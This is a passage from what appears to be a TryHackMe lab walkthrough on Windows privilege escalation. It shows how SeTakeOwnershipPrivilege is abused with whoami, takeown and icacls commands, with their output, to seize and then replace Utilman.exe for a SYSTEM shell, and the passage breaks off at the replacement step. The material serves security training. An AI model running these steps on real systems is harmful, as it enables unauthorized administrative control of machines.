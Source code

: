 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/33303d0cde736589d2838ee894379ff2.png)

Once on the command prompt, we can check our privileges with the following command:

```
Command Prompt

C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled

```

We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/a5437a609e41d982b320967667e9b97a.png)


Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

To replace utilman, we will start by taking ownership of it with the following command:

```
Command Prompt

C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".

```

Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use the following command:

```
Command Prompt

C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

After this, we will replace utilman.exe with a copy of cmd.exe:

